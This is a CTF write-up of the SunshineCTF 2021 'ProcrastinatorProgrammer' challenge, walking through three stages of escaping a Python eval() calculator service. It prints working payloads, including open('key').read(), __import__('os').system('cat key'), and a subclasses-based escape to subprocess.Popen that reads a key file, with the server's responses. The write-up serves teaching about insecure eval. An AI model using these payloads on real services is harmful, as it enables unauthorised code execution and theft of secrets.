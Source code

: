 ```yaml
---
title: 'SunshineCTF 2021: ProcrastinatorProgrammer'
date: 2021-09-19T00:00:00+00:00
author: Kris
layout: post
image: /images/2021/sunshine/sunshinetitle.png
categories:
  - Write-Ups
  - Python
---
```

A fun CTF with some good story telling in the Reverse Engineering category. This challenge was a fun quick 150 points because I'd had a bit of [practice](https://ctf.rip/write-ups/web/tmuctf-injection/) with the domain recently! 

#### <a name="procrastinator"></a>ProcrastinatorProgrammer - Scripting - 150 points

This challenge reads:

```
I may have procrastinated.

This may be a mistake.

Or mistakes were made.

I may have procrastinated security for procrastinate.chal.2021.sunshinectf.org 
65000. I may have been watching too many Tom Cruise movies instead of releasing 
this... uh... last year.

But don't worry! The keys to the kingdom are split into three parts... you'll 
never find them all!

Flag will be given by our backend in the standard sun{} format, but make sure 
you put all the pieces together!

Notes:

Need help on your math? If so? ProcrastinatorProgrammer is your buddy!

Send equations our way, and we'll solve them your way!

Example Usages
Send an equation, like

	cos(5) + sin(7)

and we'll send an answer! In this case, 0.9406487841820153.

Need more complicated equations? No problem! Our python3 backend can handle 
anything you throw at it.

    fsum([.1, .1, .1, .1, .1, .1, .1, .1, .1, .1]) + gcd(19,29,39,49,59,69)
    =>2.0

Note: In the future we may disable components if we find there's security 
issues with them.
```

Connecting to the server we're given a prompt for a math equation.

```shell
$ nc procrastinate.chal.2021.sunshinectf.org 65000
Welcome to the ProcrastinatorProgrammer backend.
Please give me an equation! Any equation! I need to be fed some data to do some 
processing! I'm super secure, and can use all python! I just use `eval()` on 
your data and then whamo, python does all the work!Whatever you do, don't 
look at my ./key!

Give me an equation please!
```

Given it says its an open eval, i try the first thing that comes to mind and open() the key.

```
open('key').read()
sun{eval_is

If you completed part 1 of the challenge...

Your princess is in another castle! 🔥🏰🔥

procrastinate-castle.chal.2021.sunshinectf.org 65001 holds your next clue.
```

Which works and we get part 1 of the flag, we then follow the directions onto the next phase and the new port number `65001`:

```
$ nc procrastinate.chal.2021.sunshinectf.org 65001
Welcome to the ProcrastinatorProgrammer backend.
Please give me an equation! Any equation! I need to be fed some data to do 
some processing!Due to technical difficulties with the last challenge, 
I've upped my ante! Now I know it's secure!I'm super secure, and can 
use most python math! I just use `eval(client_input, \{\}, safe_math_functions)` 
on your data and then whamo, python does all the work!Whatever you do, 
don't look at my ./key!

Halt in the name of the law!

What was the ./key found in the previous challenge?
```

Which we know is `sun{eval_is` so we send that and receive our challenge:

This challenge also gave itself away immediately though because the first thing I tried was `dir()`

```shell
Give me an equation please!

dir()
['abs', 'acos', 'asin', 'atan', 'atan2', 'ceil', 'cos', 'cosh', 'degrees', 
'e', 'exp', 'fabs', 'floor', 'fmod', 'frexp', 'hypot', 'ldexp', 'log', 
'log10', 'math', 'modf', 'pi', 'pow', 'radians', 'sin', 'sinh', 'sqrt', 
'tan', 'tanh']
```

And so even though there's a "safe list", builtins still exist so I tried: `__import__('os').system('cat key')` ...

```
Give me an equation please!

__import__('os').system('cat key')
_safe_

If you completed part 2 of the challenge...

You need sequels. MORE SEQUELS!! 🔥🏰🔥

procrastinate-sequel.chal.2021.sunshinectf.org 65002 holds your next clue.
```

And now we have 2 parts of the flag... on to part3. For this part they were more careful:

```
$ nc procrastinate.chal.2021.sunshinectf.org 65002
Welcome to the ProcrastinatorProgrammer backend.
Please give me an equation! Any equation! I need to be fed some data to do 
some processing!Due to technical difficulties with the previous set, I had 
to remove math lib support! In fact the only thing this can do is add and 
subtract now!... I think. Google tells me that it's secure now! Well the 
second result anyhow.I'm super secure, and can use a bit of python math! 
I just use `eval(client_input, {'__builtins__':\{\}})` on your data and 
then whamo, python does all the work!Whatever you do, don't look at my 
./key!

Halt in the name of the law!

What was the ./key found in the previous challenge?

_safe_
Give me an equation please!

__import__('os').system('cat key')
Process Process-1:
Traceback (most recent call last):
  File "/usr/local/lib/python3.9/multiprocessing/process.py", line 315, in _bootstrap
    self.run()
  File "/usr/local/lib/python3.9/multiprocessing/process.py", line 108, in run
    self._target(*self._args, **self._kwargs)
  File "/app/server-challenge-3.py", line 39, in test_client
    print(eval(client_input, {'__builtins__': {}}, safe_dict) or "")
  File "<string>", line 1, in <module>
NameError: name '__import__' is not defined

```

But still it's hard to remove everything in Python. We have `magic methods` on types that make it possible to escape still. Let's see if they work:

```
Give me an equation please!

().__class__.__base__.__subclasses__()

[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, 
<class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, 
<class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, 
<class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, 

... many classes ...

<class 'contextlib._GeneratorContextManagerBase'>, <class 'contextlib._BaseExitStack'>, 
<class 'subprocess.CompletedProcess'>, <class 'subprocess.Popen'>, 
<class 'multiprocessing.util.Finalize'>, <class 'multiprocessing.util.ForkAwareThreadLock'>, 
<class 'multiprocessing.popen_fork.Popen'>]
```

Yup! 

And the eagle eyed among you will see the super useful class loaded `subprocess.Popen` at index 219 there. The next step is one I've used a few times lately, calling that by index and using the `communicate` method to RCE and receive the output via `stdout`.

```
Give me an equation please!

().__class__.__base__.__subclasses__()[219](('cat','key'),stdout=-1).communicate().__getitem__(0)
b'only_if_you_ast_whitelist_first}'

If you completed part 3 of the challenge...

 just sum the three clues together to get the flag. 
 It's a three-part equation, very complicated.
```

Putting all the pieces together gives us: `sun{eval_is_safe_only_if_you_ast_whitelist_first}`:)

